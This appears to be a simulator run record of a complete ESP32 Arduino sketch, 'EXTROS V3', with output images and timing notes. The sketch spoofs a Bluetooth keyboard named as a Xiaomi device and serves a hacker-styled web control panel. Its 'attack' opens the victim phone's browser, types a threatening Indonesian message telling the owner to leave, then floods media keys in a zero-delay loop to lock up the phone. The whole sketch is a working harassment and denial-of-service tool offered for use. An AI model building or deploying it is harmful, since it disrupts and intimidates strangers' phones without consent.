
This sketch was run on a simulated ESP32. Parts: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench. USB keyboard and mouse output is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /start received
At 2.0 s:

Timing chart, 0 to 4.3 s (numbered marks = the images above; inputs shaded):


The sketch:

esp32-rubberducy.ino
```cpp
/**
 * PROJECT: EXTROS V3 (GOD MODE LAG)
 * TARGET: ESP32 DevKit V1
 * UI: Cyber Command Center
 * ATTACK: App Bombing + Volume Flood
 */

#include <WiFi.h>
#include <WebServer.h>
#include <BleKeyboard.h>

// ==========================================
// 1. KONFIGURASI NETWORK
// ==========================================
const char* ap_ssid = "iphone 67";
const char* ap_password = "12345678";

// Nama Bluetooth Target
BleKeyboard bleKeyboard("Hyper Os 3", "Xiaomi", 100);

WebServer server(80);
const int ledPin = 2; // LED DevKit V1
bool isChaosMode = false;

// ==========================================
// 2. UI EXTROS V3 (COMMAND CENTER)
// ==========================================
const char index_html[] PROGMEM = R"=====(
<!DOCTYPE html>
<html lang="en">
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <title>EXTROS V3</title>
    <style>
        @import url('https://fonts.googleapis.com/css2?family=Rajdhani:wght@500;700&display=swap');

        * { box-sizing: border-box; -webkit-tap-highlight-color: transparent; }
        body {
            background-color: #050505;
            color: #00ff41;
            font-family: 'Rajdhani', sans-serif;
            margin: 0;
            display: flex;
            justify-content: center;
            min-height: 100vh;
            background-image:
                linear-gradient(rgba(0, 255, 65, 0.03) 1px, transparent 1px),
                linear-gradient(90deg, rgba(0, 255, 65, 0.03) 1px, transparent 1px);
            background-size: 20px 20px;
        }

        .container {
            width: 100%;
            max-width: 420px;
            padding: 20px;
            display: flex;
            flex-direction: column;
            gap: 15px;
        }

        /* HEADER */
        .header {
            border-bottom: 2px solid #00ff41;
            padding-bottom: 10px;
            margin-bottom: 10px;
            display: flex;
            justify-content: space-between;
            align-items: flex-end;
        }
        .title { font-size: 32px; font-weight: 700; letter-spacing: 2px; text-shadow: 0 0 10px rgba(0,255,65,0.5); }
        .version { font-size: 12px; opacity: 0.7; }

        /* RADAR BOX */
        .radar-box {
            background: rgba(0, 20, 0, 0.8);
            border: 1px solid #00ff41;
            height: 120px;
            position: relative;
            overflow: hidden;
            border-radius: 4px;
            display: flex;
            align-items: center;
            justify-content: center;
            flex-direction: column;
        }
        .radar-scan {
            position: absolute;
            width: 100%;
            height: 2px;
            background: #00ff41;
            box-shadow: 0 0 10px #00ff41;
            animation: scan 2s linear infinite;
            top: 0;
            opacity: 0.5;
        }
        @keyframes scan { 0% {top:0;} 100% {top:100%;} }

        .target-info { z-index: 2; text-align: center; }
        .status-big { font-size: 24px; font-weight: bold; letter-spacing: 1px; }
        .status-sub { font-size: 14px; opacity: 0.8; margin-top: 5px; }

        /* BLINK ANIMATION */
        .blink-red { animation: blinkR 0.2s infinite; color: #ff0000; text-shadow: 0 0 10px red; }
        .text-green { color: #00ff41; }
        .text-gray { color: #555; }
        @keyframes blinkR { 0% {opacity:1;} 50% {opacity:0.5;} }

        /* BUTTONS */
        .btn-group { display: flex; flex-direction: column; gap: 15px; margin-top: 10px; }

        button {
            background: transparent;
            border: 2px solid #00ff41;
            color: #00ff41;
            padding: 20px;
            font-family: 'Rajdhani', sans-serif;
            font-size: 20px;
            font-weight: 700;
            text-transform: uppercase;
            letter-spacing: 2px;
            cursor: pointer;
            transition: 0.2s;
            clip-path: polygon(10px 0, 100% 0, 100% calc(100% - 10px), calc(100% - 10px) 100%, 0 100%, 0 10px);
        }

        .btn-attack {
            background: rgba(0, 255, 65, 0.1);
            box-shadow: 0 0 15px rgba(0,255,65,0.1);
        }
        .btn-attack:active {
            background: #00ff41;
            color: #000;
            transform: scale(0.98);
        }

        .btn-stop {
            border-color: #ff3333;
            color: #ff3333;
            background: rgba(255, 51, 51, 0.1);
        }
        .btn-stop:active {
            background: #ff3333;
            color: #000;
            transform: scale(0.98);
        }

        /* LOG TERMINAL */
        .terminal {
            background: #000;
            border: 1px solid #333;
            height: 150px;
            padding: 10px;
            font-family: monospace;
            font-size: 12px;
            overflow-y: auto;
            color: #aaa;
            margin-top: 10px;
            border-left: 4px solid #00ff41;
        }
        .log-line { margin-bottom: 2px; }
        .log-time { color: #555; margin-right: 5px; }
        .highlight { color: #fff; font-weight: bold; }
    </style>
</head>
<body>

    <div class="container">
        <div class="header">
            <div class="title">EXTROS</div>
            <div class="version">V3.0 // SYSTEM</div>
        </div>

        <div class="radar-box">
            <div class="radar-scan"></div>
            <div class="target-info">
                <div id="mainStatus" class="status-big text-gray">SEARCHING...</div>
                <div id="subStatus" class="status-sub">WAITING FOR TARGET</div>
            </div>
        </div>

        <div class="btn-group">
            <button class="btn-attack" onclick="launchAttack()">
                ⚠️ INITIATE ATTACK
            </button>
            <button class="btn-stop" onclick="stopAttack()">
                ✖ SYSTEM RESET
            </button>
        </div>

        <div class="terminal" id="console">
            <div class="log-line">> SYSTEM INITIALIZED...</div>
        </div>
    </div>

    <script>
        function log(msg) {
            const term = document.getElementById('console');
            const time = new Date().toLocaleTimeString('en-GB').split(' ')[0];
            term.innerHTML += `<div class="log-line"><span class="log-time">[${time}]</span> ${msg}</div>`;
            term.scrollTop = term.scrollHeight;
        }

        function launchAttack() {
            log("SENDING PAYLOAD...");
            if(navigator.vibrate) navigator.vibrate(100);

            fetch('/start').then(r => {
                log("<span class='highlight'>PAYLOAD DELIVERED.</span>");
                log("Waiting for psychological trigger...");
            });
        }

        function stopAttack() {
            log("RESETTING CONNECTION...");
            if(navigator.vibrate) navigator.vibrate([50,50]);

            fetch('/stop').then(r => {
                log("SYSTEM NORMAL.");
            });
        }

        setInterval(() => {
            fetch('/status').then(r => r.json()).then(d => {
                const main = document.getElementById('mainStatus');
                const sub = document.getElementById('subStatus');

                if(d.chaos) {
                    main.innerText = "!!! DEADLOCK ACTIVE !!!";
                    main.className = "status-big blink-red";
                    sub.innerText = "CPU & RAM FLOODING...";
                } else if(d.conn) {
                    if(main.innerText !== "!!! DEADLOCK ACTIVE !!!") {
                        main.innerText = "TARGET LOCKED";
                        main.className = "status-big text-green";
                        sub.innerText = "CONNECTED: READY TO FIRE";
                    }
                } else {
                    main.innerText = "SEARCHING...";
                    main.className = "status-big text-gray";
                    sub.innerText = "WAITING FOR BLUETOOTH";
                }
            });
        }, 1000);
    </script>
</body>
</html>
)=====";

// ==========================================
// 3. LOGIKA BRUTAL (BACKEND)
// ==========================================

void typeSlow(String text) {
  for(int i = 0; i < text.length(); i++) {
    bleKeyboard.print(text[i]);
    delay(40); // Ngetik agak cepet dikit biar gak kelamaan
  }
}

void handleStart() {
  if(!bleKeyboard.isConnected()) return;
  digitalWrite(ledPin, HIGH);

  // -- FASE 1: BUKA AKSES --
  bleKeyboard.write(KEY_MEDIA_VOLUME_UP);
  delay(200);
  bleKeyboard.write(KEY_MEDIA_WWW_HOME);
  delay(2500);

  // Fokus URL
  bleKeyboard.press(KEY_LEFT_CTRL); bleKeyboard.print("l"); bleKeyboard.releaseAll();
  delay(500);

  // Bersih-bersih
  bleKeyboard.print(" "); delay(50);
  bleKeyboard.press(KEY_LEFT_CTRL); bleKeyboard.print("a"); bleKeyboard.releaseAll();
  delay(50);
  bleKeyboard.write(KEY_BACKSPACE);
  delay(200);

  // -- FASE 2: PESAN TEROR --
  typeSlow("Jangan AKtifkan Bluetooth Mu Sembarangan... ");
  delay(400);
  typeSlow("Lebih Waspada");
  delay(400);
  typeSlow("Menjauh Lah Dari Tempat Ini JIka Ingin Ponesel Mu Normal Kembali");

  delay(500);
  bleKeyboard.write(KEY_RETURN);

  // -- FASE 3: DEADLOCK TRIGGER --
  delay(4000); // Kasih waktu baca 4 detik

  isChaosMode = true; // AKTIFKAN MODE RUSUH
  server.send(200, "text/plain", "CHAOS");
}

void handleStop() {
  isChaosMode = false;
  digitalWrite(ledPin, LOW);
  server.send(200, "text/plain", "STOP");
}

void handleStatus() {
  String json = "{";
  json += "\"conn\":" + String(bleKeyboard.isConnected()?"true":"false") + ",";
  json += "\"chaos\":" + String(isChaosMode?"true":"false");
  json += "}";
  server.send(200, "application/json", json);
}

void setup() {
  Serial.begin(115200);
  pinMode(ledPin, OUTPUT);
  digitalWrite(ledPin, LOW);

  bleKeyboard.begin();
  WiFi.mode(WIFI_AP);
  WiFi.softAP(ap_ssid, ap_password);

  server.on("/", [](){ server.send(200, "text/html", index_html); });
  server.on("/start", handleStart);
  server.on("/stop", handleStop);
  server.on("/status", handleStatus);
  server.begin();
}

// ==========================================
// 4. THE KILLER LOOP (APP BOMBING - FIXED)
// ==========================================
void loop() {
  server.handleClient();

  if (isChaosMode && bleKeyboard.isConnected()) {
    // --- TEKNIK APP BOMBING ---

    // 1. Force Browser (Buka Chrome/Browser)
    bleKeyboard.write(KEY_MEDIA_WWW_HOME);

    // 2. Force Volume Overlay (Bikin UI ketutup bar volume)
    bleKeyboard.write(KEY_MEDIA_VOLUME_UP);
    bleKeyboard.write(KEY_MEDIA_VOLUME_DOWN);

    // 3. Force Calculator (Paksa buka Kalkulator)
    bleKeyboard.write(KEY_MEDIA_CALCULATOR);

    // 4. GANTI EMAIL JADI SEARCH (FIX ERROR)
    // KEY_MEDIA_EMAIL diganti KEY_MEDIA_WWW_SEARCH
    // Ini bakal maksa buka Google Search/Assistant (Berat banget di RAM)
    bleKeyboard.write(KEY_MEDIA_WWW_SEARCH);

    // 0 Delay. CPU HP bakal panik.
  }
}
```

Measured:
- after the input at 1.3 s, GPIO 2 (ledPin): LOW → HIGH at once
